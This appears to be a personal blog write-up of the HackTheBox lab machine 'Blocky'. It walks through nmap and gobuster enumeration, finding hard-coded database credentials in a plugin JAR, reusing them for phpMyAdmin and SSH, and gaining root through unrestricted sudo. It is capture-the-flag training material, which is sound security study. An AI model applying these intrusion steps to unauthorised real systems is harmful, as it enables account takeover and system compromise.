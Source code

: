 ```yaml
---
layout: post
title: HackTheBox - Blocky
---
```


Blocky is one of the easiest machine on the HackTheBox, based on misconfiguration and Hard-coded credentials in java class.

![Blocky](https://github.com/user-attachments/assets/0fe78f1f-3513-46ab-b990-c1329189c5d1)



## Reconnaissance and Enumeration
---
Let's start with typical nmap scan to check open ports. I'm using the `-T5` switch to speed up scanning.

```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -T5 blocky.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 03:38 CET
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```
As we can see ports 21 (ProFTPD 1.3.5a), 22 (ssh) and 80 are open with `WordPress` page.

![1](https://github.com/user-attachments/assets/5b0c6159-dd7e-42ad-94e7-1f5730dec9b8)

Gobuster to enumerate directories on the server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blocky.htb    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```



We can see, default Wordpress folders like `/wp-admin` with login panel, `/wp-includes` contains core of Wordpress, `/phpMyAdmin`which will definitely be useful in the later stages.
Among the interesting findings is the `/plugins` directory, which contains two files: BlockyCore.jar and griefprevention-1.11.2-3.1.1.298.jar. Let's download them and see what's inside.

![Zrzut ekranu 2025-02-24 o 03 56 52](https://github.com/user-attachments/assets/a745b638-1580-413d-bb3f-4d777b15f79d)
![Zrzut ekranu 2025-02-24 o 03 58 12](https://github.com/user-attachments/assets/337dd70a-d10b-40af-b5b5-813ed1681172)

It's Java class file. We can open it using an online decompiler or code editor. I opened it in IntelliJ to check what this class contains.

<img width="860" alt="Zrzut ekranu 2025-02-24 o 03 58 42" src="https://github.com/user-attachments/assets/c1e6f394-d2d8-4679-ab6e-4090e732f184" />


The class contains hard-coded credentials for database access. We previously discovered the `/phpmyadmin` directory, so let's check if these login credentials work there.

![Zrzut ekranu 2025-02-24 o 03 59 45](https://github.com/user-attachments/assets/3b673e9b-ca50-4b95-9244-24a1911c48c9)

Bingo, login and password worked, and now we have full access to the entire database, including user information and other stored data, with this access we can try to find table with usernames.

![Zrzut ekranu 2025-02-24 o 04 01 05](https://github.com/user-attachments/assets/74f02629-bdd8-4fc5-ac57-2a914f071c52)

I found the `wp-users` table, which contains a user named Notch. We we can try to login into SSH with known usernames (root, notch) and hard-coded password in java class file.

## Exploitation
---
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ ssh root@blocky.htb 
root@blocky.htb's password: 
Permission denied, please try again.
root@blocky.htb's password: 

┌──(vq4s㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
We can login to ssh with notch username and provided password, so now we are able to check user flag.
```
otch@Blocky:~$ ll
total 40
drwxr-xr-x 5 notch notch 4096 Jul  8  2022 ./
drwxr-xr-x 3 root  root  4096 Jul  2  2017 ../
-rw------- 1 notch notch    1 Dec 24  2017 .bash_history
-rw-r--r-- 1 notch notch  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 notch notch 3771 Jul  2  2017 .bashrc
drwx------ 2 notch notch 4096 Jul  2  2017 .cache/
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft/
drwxrwxr-x 2 notch notch 4096 Jul  2  2017 .nano/
-rw-r--r-- 1 notch notch  655 Jul  2  2017 .profile
-r-------- 1 notch notch   33 Feb 23 20:35 user.txt
notch@Blocky:~$ wc user.txt 
 1  1 33 user.txt
```


## Privilege Escalation
---
As always, I checked `sudo -l` command, this command is used to display a list of commands which user can execute with root privilages, in this case we can use every command.
```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Since we can execute all commands, we can simply switch to the root user and retrieve the root flag.
```
notch@Blocky:~$ sudo su - root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# cd /root/
root@Blocky:~# ll
total 28
drwx------  3 root root 4096 Feb 23 20:35 ./
drwxr-xr-x 23 root root 4096 Jun  2  2022 ../
-rw-------  1 root root    1 Dec 24  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jun  7  2022 .cache/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Feb 23 20:35 root.txt
root@Blocky:~# wc root.txt 
 1  1 33 root.txt
```
